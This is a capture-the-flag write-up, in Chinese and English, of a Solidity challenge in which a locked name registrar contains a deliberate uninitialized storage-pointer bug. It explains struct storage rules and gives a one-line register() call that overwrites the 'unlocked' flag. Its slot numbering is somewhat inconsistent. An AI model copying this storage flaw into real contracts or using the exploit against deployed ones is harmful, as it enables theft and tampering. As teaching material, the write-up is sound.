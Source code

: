 ## 0x01 Task

```javascript
pragma solidity ^0.4.23; 

// A Locked Name Registrar
contract Locked {

    bool public unlocked = false;  // registrar locked, no name updates
    
    struct NameRecord { // map hashes to addresses
        bytes32 name; // 
        address mappedAddress;
    }

    mapping(address => NameRecord) public registeredNameRecord; // records who registered names 
    mapping(bytes32 => address) public resolve; // resolves hashes to addresses
    
    function register(bytes32 _name, address _mappedAddress) public {
        // set up the new NameRecord
        NameRecord newRecord;
        newRecord.name = _name;
        newRecord.mappedAddress = _mappedAddress; 

        resolve[_name] = _mappedAddress;
        registeredNameRecord[msg.sender] = newRecord; 

        require(unlocked); // only allow registrations if contract is unlocked
    }
}
```

This name registrar is locked and will not accept any new names to be registered.

Unlock this registrar to beat the level.

## 0x02 need2know

题目里多了一个`structs`，可以把它当做结构体来想。

看一下`structs`在Solidity里面有哪些需要注意的地方：

### 初始化结构体

现在我有这样的结构

```javascript
struct Funder {
    address addr;
    uint amount;
}

struct StructOfStructs {
    ...
    mapping (uint => Funder) funders;
}
```

- 直接传值初始化

`... = Funder(msg.sender, msg.value);`

- 使用对象传值（更好的阅读体验）

`... = Funder({addr: msg.sender, amount: msg.value})`

### 结构体数组

```javascript
Funders[] public funders;
function ... {
    Funder memory f;
    f.address = ...;
    f.amount = ...;
    funders.push(f);
}
```

需要知道的一点是：声明结构体是用来存储的。当使用创建或复制结构体的时候，需要使用`memory`修饰符。在函数中的任何临时计算都不应当使用结构体。

### 结构体映射

```javascript
mapping (uint => Funder) funders; 
function ... {
    funders[index] = Funder(...);
}
```

### 错误的使用方法

```javascript
// Do NOT do this
function badFunction{
    Funder f;         //this defaults to storage
    f.address = ...;
    f.amount = ...;
    funders.push(f);  //this will fail
}
```

```javascript
// Do NOT do this
function badFunction{
    Funder storage f = Funder(...);
}
// Do NOT do this
function badFunction(Funder _funder){
    Funder storage f = _funder;
}
```

Notice that function input parameters are also memory, not storage reference pointers.

## 0x03 Solution

任务目标是把全局变量`unlocked`改为`true`

看一下变量的存储结构：

```javascript
bool public unlocked = false;  // registrar locked, no name updates
struct NameRecord { // map hashes to addresses
    bytes32 name; // 
    address mappedAddress;
}
```
因为`name`是`bytes32`的，所以`unlock`实际上占据了整个slot1。

`false`的字节码是`0x00`，所以`unlock`在合约中的存储看起来就像这样：

```
0x0000000000000000000000000000000000000000000000000000000000000000
```

然后在`register`函数中：

```javascript
function register(bytes32 _name, address _mappedAddress) public {
        // set up the new NameRecord
        NameRecord newRecord;
        newRecord.name = _name;
        newRecord.mappedAddress = _mappedAddress; 
```

这里就犯了刚才提到的错误。

`newRecord` defaults to storage! And any data saved inside newRecord will overwrite the existing slots 1 and 2 in storage.

所以就很轻松地可以修改`unlocked`

```javascript
await contract.register("0x0000000000000000000000000000000000000000000000000000000000000001","0x899f879df02dc33893c54d6D02A3b2D6bBE144Df")
```

查看解锁情况：

```javascript
await contract.unlocked();
```

